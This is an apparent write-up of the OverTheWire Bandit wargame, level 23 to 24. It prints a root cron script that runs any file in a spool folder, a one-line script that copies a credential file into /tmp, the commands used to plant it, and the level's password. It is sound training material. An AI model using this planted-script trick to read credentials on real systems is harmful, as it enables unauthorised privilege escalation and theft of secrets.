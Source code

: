 # Solution

(completing this was freaking amazing)

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
*We know that it will execute every file which belongs to the bandit23 (our current state)* 

We simply have to create a script in the directory /var/spool/bandit24
which will save the password from the /etc/bandit_pass/bandit24 to a file in /tmp/ (I Created *jaldi* in this case)

Script trying.sh:
```
cat /etc/bandit_pass/bandit24 > /tmp/jaldi
```

Commands I used later:

```
nano /var/spool/bandit24/trying.sh
Unable to create directory /home/bandit23/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit23@bandit:~$ chmod +x /var/spool/bandit24/trying.sh
bandit23@bandit:~$ cat /tmp/jaldi
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
